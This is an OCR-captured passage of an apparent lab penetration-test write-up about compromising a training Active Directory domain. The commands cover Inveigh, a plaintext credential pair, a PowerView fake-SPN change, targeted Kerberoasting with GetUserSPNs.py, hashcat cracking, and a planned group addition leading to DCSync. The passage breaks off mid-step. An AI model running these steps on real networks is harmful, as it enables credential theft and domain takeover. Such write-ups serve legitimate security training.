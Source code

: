         PS C:\Users\ilfserveradm\Documents> Invoke-Inveigh -ConsoleOutput Y -FileOutput Y      


        

                        //Active Directory Compromise


        To recap, we dug through the Active Directory environment and obtained the following credential pair:

        mssqladm:DBAilfreight1!

        Digging into the BloodHound data we see that we have GenericWrite over the ttimmons user. Using this we can set a fake SPN on the ttimmons account and perform a targeted Kerberoasting attack. If this user is using a weak password then we can crack it and proceed onwards.



        -Setting SPN to ttimmons

        Let's go back to the DEV01 machine where we had loaded PowerView. We can create a PSCredential object to be able to run commands as the mssqladm user without having to RDP again.

        PS C:\DotNetNuke\Portals\0> $SecPassword = ConvertTo-SecureString 'DBAilfreight1!' -AsPlainText -Force

        PS C:\DotNetNuke\Portals\0> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\mssqladm', $SecPassword)


        
        Next we'll use Set-DomainObject to set a fake SPN on the target account. We'll create an SPN named acmetesting/LEGIT which we'll of course delete later and note in the appendices of our report.


        PS C:\DotNetNuke\Portals\0> Set-DomainObject -credential $Cred -Identity ttimmons -SET @{serviceprincipalname='acmetesting/LEGIT'} -Verbose


        -KErberoasting ttimmons

        Next we can go back to our attack host and use GetUserSPNs.py to perform a targeted Keberoasting attack.

        Gkaranikas@htb[/htb]$ proxychains GetUserSPNs.py -dc-ip 172.16.8.3 INLANEFREIGHT.LOCAL/mssqladm -request-user ttimmons

        $ hashcat -m 13100 ttimmons_tgs /usr/share/wordlists/rockyou.txt

        They are! Now we have yet another credential pair, time for the ttimmons user. Let's check and see what type of access this user has. Looking in BloodHound again we see that we have GenericAll over the SERVER ADMINS group.

        
        
        
        -adding timmons to SERVER ADMINS
        
        Looking a bit further we see that the SERVER ADMINS group has the ability to perform the DCSync attack to obtain NTLM password hashes for any users in the domain.

        We use abuse this by first adding the ttimmons user to the group. First we'll need to create another PSCredential object.
